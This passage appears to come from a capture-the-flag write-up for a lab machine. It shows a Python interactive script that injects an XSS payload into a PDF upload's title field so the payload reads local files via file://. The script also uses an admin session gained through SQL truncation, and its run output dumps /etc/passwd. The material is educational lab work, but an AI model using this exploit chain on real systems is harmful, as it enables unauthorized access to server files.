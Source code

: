     
        def default(self, args):
            # Upload XSS
            files = {'Upload': ('file.pdf', 'dummy data', 'application/pdf')}
            values = {'title': '<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file://' + args + '");x.send();</script>',
                      'author': '0xdf',
                      'Upload': 'Upload'}
            resp = self.user_sess.post(f'{self.base_url}/collections.php', files=files, data=values, allow_redirects=False, proxies={'http':'http://127.0.0.1:8080'})
    
            # Get Results
            resp = self.admin_sess.get(f'{self.base_url}/admin/collections.php?type=collections')
            pdf = parser.from_buffer(resp.content)
            print(pdf['content'].strip())
    
    term = Terminal()
    try:
        term.cmdloop()
    except KeyboardInterrupt:
        print()
    

I create a `Cmd` Terminal object, and invoke it’s `cmdloop()`. On
initialization, it creates sessions for both a user login (after creating that
user), and an admin session (after using SQL-truncation to set a password).
Then, when a path is entered, it uses that path to send an XSS through the
user session, and then gets the PDF through the admin session. Then it parses
the PDF to pull the text out using
[tika](https://github.com/chrismattmann/tika-python), and prints it. The
spacing got a bit weird at times, but it worked good enough:

    
    
    root@kali# python3 book_file_read.py 
    Session created as user: cr7qe72admu9iqk9aja5pcc7nv 
    Session created as admin: 4mo93ht69to89sc4vuv3j81rn9     
    book> /etc/passwd                            
    root:x:0:0:root:/root:/bin/bash                    
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin      www-data:x:33:33:www-
    data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing    List    Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin        gnats:x:41:41:Gnats
    Bug-Reporting   System  (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin      systemd-
    network:x:100:102:systemd       Network
    Management,,,:/run/systemd/netif:/usr/sbin/nologin      systemd-
    resolve:x:101:103:systemd
    Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin